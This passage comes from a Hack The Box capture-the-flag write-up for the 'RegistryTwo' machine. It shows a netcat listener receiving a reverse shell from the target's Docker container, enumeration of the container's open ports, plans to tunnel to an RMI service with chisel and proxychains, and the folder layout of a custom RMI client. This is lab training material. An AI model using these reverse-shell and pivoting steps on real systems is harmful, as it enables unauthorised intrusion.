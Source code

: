 Unfortunately, for some reason, it was not possible to execute these three commands in a row, and it forced me to do this three times separately, and the bash/sh reverse shell did not work either. 

And Kaboom, finally we got a shell on the docker container !!

```bash
┌──(ar0x㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.81] from (UNKNOWN) [10.129.229.28] 59630
```

#### Docker Enumeration

I couldn't find anything important in the container but we can see that port 9002 is running on this server and its listening for  requests.

```log
╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:443             0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:5001            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:3310            0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 :::22                   :::*                    LISTEN      -
tcp        0      0 :::34519                :::*                    LISTEN      -
tcp        0      0 :::443                  :::*                    LISTEN      -
tcp        0      0 ::ffff:127.0.0.1:8005   :::*                    LISTEN      1/java
tcp        0      0 :::5000                 :::*                    LISTEN      -
tcp        0      0 :::8009                 :::*                    LISTEN      1/java
tcp        0      0 :::5001                 :::*                    LISTEN      -
tcp        0      0 :::9002                 :::*                    LISTEN      -
tcp        0      0 :::3306                 :::*                    LISTEN      -
tcp        0      0 :::3310                 :::*                    LISTEN      -
tcp        0      0 :::8080                 :::*                    LISTEN      1/java
```

Port `9002` is open and there is no fingerprint of the RMI server, so the RMI server is probably on the host system. We can make a SOCKS tunnel with `chisel` to this network and try to access this service via `proxychains`.

#### Creating my own RMI Client

So here we can see the structure of the RMIClient, if you want to build this, please pay attention to the folder structure, it should have the same structure otherwise you will get weird Java errors.

```bash
┌──(ar0x㉿kali)-[~/…/HTB/Machines/RegistryTwo/RMIClientTest]
└─$ tree
.
└── src
    ├── com
    │   └── htb
    │       └── hosting
    │           └── rmi
    │               ├── AbstractFile.class
    │               ├── AbstractFile.java
    │               ├── FileService.class
    │               ├── FileService.java
    │               ├── RMIClientWrapper.class
    │               └── RMIClientWrapper.java
    ├── Main.class
    ├── Main.java
    └── runner.sh

6 directories, 9 files
```